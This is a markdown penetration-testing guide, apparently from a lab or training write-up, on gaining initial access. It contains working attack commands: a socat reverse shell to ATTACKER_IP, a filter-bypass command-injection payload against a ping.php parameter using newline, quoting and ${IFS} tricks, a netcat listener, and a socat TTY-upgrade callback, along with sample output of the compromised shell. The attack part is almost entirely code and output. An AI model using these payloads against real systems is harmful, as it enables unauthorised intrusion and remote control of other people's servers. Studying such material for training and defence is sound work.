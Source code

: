 # Initial Access

## 🎯 Overview

**Initial Access** transforms **external reconnaissance** into **stable internal network foothold**. This phase focuses on converting **command injection** into **reverse shells**, **TTY upgrades**, and **privilege escalation** to establish persistent access for internal Active Directory attacks.

## 🚀 Reverse Shell Establishment

### 🔧 Socat Reverse Shell (Filter Bypass)
```bash
# Base socat command (filtered):
socat TCP4:ATTACKER_IP:PORT EXEC:/bin/bash

# Filter bypass payload:
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:ATTACKER_IP:8443${IFS}EXEC:bash

# Explanation:
%0a         # Newline character (command separator bypass)
's'o'c'a't' # Single quotes around each character (command bypass)
${IFS}      # Environment variable for space bypass
```

### 🎧 Listener Setup
```bash
# Start netcat listener
nc -nvlp 8443

# Expected connection:
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 51496
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

## 🔄 TTY Upgrade Process

### 🛠️ Socat Interactive Terminal
```bash
# 1. Start socat listener on attacker
socat file:`tty`,raw,echo=0 tcp-listen:4443

# 2. Execute from target reverse shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4443

# 3. Result: Full interactive TTY
webdev@dmz01:/var/www/html/monitoring$ id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```
